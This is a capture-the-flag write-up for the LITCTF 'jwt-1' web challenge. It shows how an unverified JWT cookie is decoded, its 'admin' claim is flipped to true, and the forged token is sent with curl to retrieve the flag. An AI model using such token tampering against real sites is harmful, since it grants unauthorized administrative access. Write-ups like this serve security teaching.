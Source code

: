 ```yaml
---
title: jwt-1
date: 2023-12-10T13:37:49+02:00
author: zacian
tags:
  - Web
draft: false
---
```


## Description

I just made a website. Since cookies seem to be a thing of the old days, I updated my authentication! With these modern web technologies, I will never have to deal with sessions again. Come try it out at http://litctf.org:31781/.

## Solution

On visiting the site, we can see a button named `Get Flag` 

On clicking it it takes to to `http://litctf.org:31781/flag` there it says `Unauthorized`

The main page also has a login link under which it says `You can't do much without logging in...`

On visiting the login link we also get to see a signup feature but we to solve the challenge we don't need to signup, in sing in or login page just put any data

Now if we visit the `Storage` Section in the developers tools and select the `Cookies` we get to see an entry. Now if we copy the cookie value which is a json web token, we can decode it form [jwt.io](https://jwt.io/)

Now for JWT , the header section shows the following

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

The Payload section contains the following

```json
{
  "name": "user",
  "admin": false
}
```

All we have to do is change the admin value from false to true

```json
{
  "name": "user",
  "admin": true
}
```

copy the JWT token 

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidXNlciIsImFkbWluIjp0cnVlfQ.okvzRibW56T_1HP_c_MbS8k6Vbww7G3c6lQ7IhgGZTc
```

Now we can copy the value and replace the token and get the flag from `/flag` or just click the button

```
Flag : LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}
```

We can also do curl to get the flag 

----

```bash
curl -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidXNlciIsImFkbWluIjp0cnVlfQ.okvzRibW56T_1HP_c_MbS8k6Vbww7G3c6lQ7IhgGZTc' http://litctf.org:31781/flag/
```

Soure of knowledge for using curl : https://catonmat.net/cookbooks/curl/set-cookies
